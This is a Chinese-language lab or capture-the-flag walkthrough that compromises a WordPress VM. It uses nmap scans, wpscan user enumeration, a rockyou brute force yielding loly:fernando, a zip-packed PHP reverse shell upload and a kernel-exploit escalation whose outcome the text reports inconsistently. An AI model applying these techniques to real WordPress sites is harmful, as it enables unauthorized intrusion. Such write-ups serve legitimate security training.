[TOC]

# 信息收集

```
arp-scan -l
nmap -p- --min-rate 10000 192.168.174.190 | awk -F ' ' '{print$1}' | awk -F '/' '{print$1}' | tr '\n' ','
```

只开放了一个80端口

分别进行TCP详细扫描，漏洞扫描和UDP扫描

## TCP详细扫描



## 漏洞扫描



- 枚举出的目录有/wordpress,/wordpress/wp-login.php，初步判断出是wordpress样的cms框架

## UDP扫描



初步扫描只得知wordpress框架

# 端口分析

从上述扫描中得到了wordpress的信息，接下来使用wpscan扫描

```
wpscan --url http://192.168.174.190/wordpress --api-token *********************  -e vt,vp,u
```



扫描出一个用户loly

- 用wpscan进行账号爆破

```
wpscan --url http://192.168.174.190/wordpress --usernames loly --passwords /usr/share/wordlists/rockyou.txt
```



成功匹配loly:fernando



 成功登录

# 拿到TTY





在**settings**页面中发现了默认文件存储位置，应该和上传的文件有关

- 能上传的新文件不包括php等，可以尝试将php文件打包成压缩包，直接上传

访问

```
http://192.168.174.190/wordpress/wp-content/banners/php-reverse-shell.php
```

成功拿到shell



# 提权

初步的信息收集没有任何收获，真正有用的是内核漏洞，或者使用linpeas.sh

不过可能因为我的靶机问题，导致我无法成功提权



我的gcc有问题，不知道什么原因，在攻击机器上运行gcc exp.c -o exp --static再上传也不行



然后直接编译运行就可以成功提权了